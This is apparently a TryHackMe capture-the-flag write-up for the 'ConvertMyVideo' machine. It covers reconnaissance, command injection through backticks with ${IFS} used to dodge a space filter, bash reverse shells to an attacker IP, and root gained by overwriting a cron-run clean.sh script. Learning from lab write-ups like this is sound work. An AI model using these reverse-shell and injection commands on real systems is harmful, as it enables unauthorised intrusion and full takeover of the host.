 ```yaml
---
title: "ConvertMyVideo - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - ConvertMyVideo
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - thm
  - tryhackme
  - machine
  - medium
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## ConvertMyVideo
![](https://kar0nx.github.io/assets/images/writeup/44f87b4bb655d754fc1f8bc6223d06d7.png)

## Reconnaissance

IP: 10.10.169.64
### NMAP

```
nmap -T4 -A -p- 10.10.169.64
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-28 10:20 EST
Nmap scan report for 10.10.169.64
Host is up (0.044s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/28%OT=22%CT=1%CU=43657%PV=Y%DS=2%DC=T%G=Y%TM=67C1
OS:D476%P=x86_64-pc-linux-gnu)SEQ(SP=FA%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508S
OS:T11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)E
OS:CN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   43.64 ms 10.11.0.1
2   43.89 ms 10.10.169.64

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.53 seconds
```

Nmap shows 2 open ports 22 ssh and 80 http on Apache httpd 2.4.29
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250228162243.png)

only convert options on site, nothing special in source code, try ffuf.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.169.64/FUZZ  

-admin
-js
-images
-tmp
```

To access admin page we need credentials, so let's back to home page and try with Burp Suite.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250228164516.png)

Looks like the website sending request to server. Let's try some kind of injections. 
Backtick works with id, ls command.
## Gaining Access

I made simple reverse shell on attacking machine https://www.revshells.com/ and tried to send in to server.

```
echo bash -i >& /dev/tcp/10.11.129.113/1337 0>&1 > rbash.sh
```

and host it via python server

```
python3 -m http.server 80
```

Trying to send it in burpsuit (website doesn't like spaces and special characters), so we need to find way to replace them. Space  = ${IFS} https://www.baeldung.com/linux/ifs-shell-variable

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250228171014.png)

It seems to work, start netcat and continue with commands:
```
`chmod${IFS}777${IFS}rbash.sh`

`bash${IFS}rbash.sh`
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250228171357.png)

We have low priv access, grab first flag.

```
cat admin/flag.txt
```

## Privilege Escalation

There is no "easy wins" after scanning with linpeas

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250228174715.png)

But there is interesting process running by root
Let's use PsPy to have a better view.
https://github.com/DominicBreuker/pspy?tab=readme-ov-file
again host python simple server in pspy64 directory
On target machine:

```
wget http://10.11.129.113/pspy64
chmod +x pspy64
./pspy64
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250228175426.png)

now we know that script clean.sh is executing every 1 minute. Let's overwrite it. To start we must stop pspy64 and restart reverse shell. 
Navigate to /var/www/html/tmp and type:

```
echo "bash -i >& /dev/tcp/10.11.129.113/1338 0>&1" > clean.sh
```

simple bash one liner, start nc in new tab

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250228180042.png)

And we have root access.
Grab last flag in /root/root.txt